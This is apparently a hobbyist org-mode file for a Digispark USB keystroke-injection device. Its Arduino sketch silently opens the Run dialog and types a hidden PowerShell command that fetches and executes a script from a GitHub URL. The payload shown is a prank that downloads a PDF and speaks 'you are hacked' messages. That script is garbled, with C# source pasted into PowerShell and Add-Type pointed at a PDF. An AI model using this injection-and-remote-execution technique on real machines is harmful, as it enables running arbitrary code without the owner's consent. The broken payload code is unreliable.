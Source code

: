 #+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Source URL
$url = "https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf"
# Destation file
$dest = "c:\temp\speech.pdf"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest


using System;
using System.IO;
using System.Management.Automation;
namespace PowerShell.PDF
{
    [Cmdlet( VerbsData.ConvertFrom, "PDF" )]
    public class ConvertFromPDF : Cmdlet
    {
        [Parameter( ValueFromPipeline = true, Mandatory = true )]
        public string PDFFile { get; set; }

        protected override void ProcessRecord()
        {
            var parser = new PDFParser();
            using( Stream s = new MemoryStream() )
            {
                if( ! parser.ExtractText(File.OpenRead(PDFFile), s) )
                {
                    WriteError(
                        new ErrorRecord(
                            new ApplicationException(),
                            "failed to extract text from pdf",
                            ErrorCategory.ReadError,
                            PDFFile
                        )
                    );
                    return;
                }
                s.Position = 0;
                using( StreamReader reader = new StreamReader( s ) )
                {
                    WriteObject( reader.ReadToEnd() );
                }
            }
        }
    }
}



c:\temp\speech.pdf | convertfrom-pdf




function convert-PDFtoText {
    param(
       [Parameter(Mandatory=$true)][string]$file
    )
    Add-Type -path "c:\temp\speech.pdf"
    $pdf = New-Object iTextSharp.text.pdf.pdfreader -Argumentlist $file
    for ($page = 1; $page -le $pdf.NumberOfPages; $page++){
        $texto=[iTextSharp.text.pdf.parser.PdfTextExtractor]::GetTextFromPage($pdf, $page)
        Write-Output $texto
    }
    $pdf.Close()
}
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 1
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right? Oh yes indeed you are hacked and powned. First let me do some work and I will talk to you in a minute. Meanwhile you should wave to the camera.")
Start-Sleep -Seconds 5
$s.Speak("hum nom nom. Don't worry just warming up my vocal chords. I will give a speech to you soon. Downloading some files.")
Start-Sleep -Seconds 5
$s.Speak($texto)

#+end_src

#+RESULTS:



$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")

https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf


** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
